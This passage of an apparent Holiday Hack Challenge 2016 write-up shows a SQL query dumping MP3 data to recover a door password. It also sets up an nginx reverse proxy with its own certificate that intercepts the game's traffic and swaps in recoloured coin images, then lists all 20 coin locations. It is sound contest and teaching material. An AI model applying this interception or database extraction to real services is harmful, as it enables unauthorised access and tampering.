| 3746d987-b8b1-11e6-89e1-42010af00008 | administrator | discombobulatedaudio7.mp3 |
There it is! We just need to tweak our query a bit so that we can get it. select filename, to_base64(mp3) from audio;:
| filename | to_base64(mp3) |
|---|---|
| discombobulatedaudio2.mp3 | SUQzAwAAAAAAGFRSQ0sAAAACAAA… |
| discombobulatedaudio7.mp3 | SUQzAwAAAAAAGFRSQ0sAAAACAAA… |
Putting it All Together
We'll join our MP3's together, speed them up a bit, and see what we hear:
sox discombobulatedaudio{1,2,3}.mp3 debug-20161224235959-0.mp3 discombobulatedaudio{5,6,7}.mp3 discombobulatedaudio.mp3 mplayer -af scaletempo -speed 5 discombobulatedaudio.mp3
The combined MP3 has 2 repetitions of a Dr. Who quote
Father Christmas, Santa Claus, or, as I've always known him, Jeff.
This is the password to the last door.
Bonus: Holiday Hack Quest
Coins
Finding the coins is tricky! Nothing to stop us from cheating one more time, though…
The coins would be so much easier to find if they were bright pink instead of gray. Let's download them and modify them:
for i in nw_coin_armor nw_coin_couch nw_coin_crate nw_coin_half nw_coin nw_coin_rack nw_coin_roof nw_coin_sink nw_coin_small_treehouse nw_coin_trough do wget -q "https://quest2016.holidayhackchallenge.com/img/$i.png" -P original_coins convert "original_coins/$i.png" -fill magenta -fuzz 80% -opaque black "$i.png" done
Figure 12: Coin before
Figure 13: Coin after
Much better. It'd also be useful if some of the floating layers were more transparent, so we can see any coins tucked behind them:
for i in floating netwars-floating78 netwars-floating small_treehouse do wget -q "https://quest2016.holidayhackchallenge.com/img/tilesets/$i.png" -P original_tilesets convert "original_tilesets/$i.png" -alpha on -channel a -evaluate set 25% "$i.png" done
Now we set up an nginx reverse proxy to proxy our browser's traffic to quest2016.holidayhackchallenge.com and to replace the images with the ones that we modified:
server {
listen 0.0.0.0:443;
server_name quest2016.holidayhackchallenge.com;
ssl on;
ssl_certificate cert.pem;
ssl_certificate_key key.pem;
# Most things will pass straight through
location / {
proxy_pass https://quest2016.holidayhackchallenge.com;
proxy_redirect off;
proxy_set_header Accept-Encoding "";
proxy_set_header Host $host;
proxy_set_header X-Real-IP $remote_addr;
proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
proxy_set_header X-Forwarded-Proto $scheme;
add_header Front-End-Https on;
}
# WebSocket stuff is a bit more complex
location /socket.io {
proxy_pass https://quest2016.holidayhackchallenge.com;
proxy_http_version 1.1;
proxy_set_header Upgrade $http_upgrade;
proxy_set_header Connection "upgrade";
}
# Replace the coin images
location ~* /img/nw_coin\.* {
root /var/www/localhost/htdocs;
}
# And replace the tilesets
location /img/tilesets/networks-floating78.png { root /var/www/localhost/htdocs; }
location /img/tilesets/networks-floating.png { root /var/www/localhost/htdocs; }
location /img/tilesets/floating.png { root /var/www/localhost/htdocs; }
location /img/tilesets/small_treehouse.png { root /var/www/localhost/htdocs; }
}
Now, coins show up a bit brighter. Without further adieu, the locations of all 20 coins:

Figure 14: Coins 1 and 2: First floor of Elf House #2
Figure 15: Coin 3: Behind House to the right of Elf House #2

Figure 16: Coin 4: Elf House #2 second floor in trough

Figure 17: Coin 5: Elf House #1 Secret Fireplace Room
Figure 18: Coin 6: Netwars Experience Treehouse Backroom
Figure 19: Coin 7: Netwars Experience Treehouse Roof

Figure 20: Coin 8: Small Tree House
Figure 21: Coin 9: Cliff in front of Workshop

Figure 22: Coin 10: Gift Conveyor Belt in Workshop

Figure 23: Coin 11: Elf House #2 Backroom
Figure 24: Coin 12: DFER

Figure 25: Coin 13: Crate in the Corridor behind Santa's Office
For the other 7 coins, we need to go back in time:
Figure 26: Coin 14: Behind Holly Evergreen by the Train Station

Figure 27: Coin 15: Second Floor of the Big Tree
Figure 28: Coin 16: Behind House Just North of Elf House #1

Figure 29: Coin 17: Behind Space Invaders screen in Netwars Experience

Figure 30: Coin 18: Behind Crate in Workshop
Figure 31: Coin 19: Behind Suit of Armor in Santa's Office
Figure 32: Coin 20: Near the Tracks of the Workshop Train Station